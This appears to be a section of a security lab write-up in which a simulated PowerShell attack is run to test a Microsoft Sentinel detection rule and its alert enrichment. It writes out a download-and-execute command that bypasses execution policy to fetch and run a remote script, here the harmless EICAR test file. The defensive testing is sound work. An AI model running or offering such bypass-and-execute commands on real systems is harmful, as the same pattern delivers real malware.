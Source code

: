 # Simulating a Suspicious PowerShell Event

To validate the effectiveness of the detection rule, a simulated attack was executed using a benign test payload. This allowed for safe end-to-end testing of alert generation and incident response capabilities within Microsoft Sentinel.

## Simulation Command

The following PowerShell command was run on the `noble-win10` endpoint:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\ProgramData\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\ProgramData\eicar.ps1';
```
![](./4-Images/image2.png)

## Why EICAR?

The **EICAR test file** is a safe, industry-standard file used to simulate the presence of malware without introducing real risk. It triggers antivirus detection mechanisms, making it ideal for testing detection rules and security tool responses.

## Objectives of the Simulation

- **Trigger the custom detection rule** by executing a suspicious PowerShell command that mimics real attacker behaviour.
- **Validate enrichment and alert grouping**, ensuring the SOC view includes useful context.
- **Test integration across the detection and investigation pipeline** — from alert generation to triage and post-incident reporting.

## Outcome

- The simulated command successfully triggered the detection rule.
- **Microsoft Sentinel** generated an alert enriched with contextual details:
  - Device name
  - Executed command
  - Associated user account

This confirmed that the detection logic was operational and capable of catching early-stage malicious behaviours.
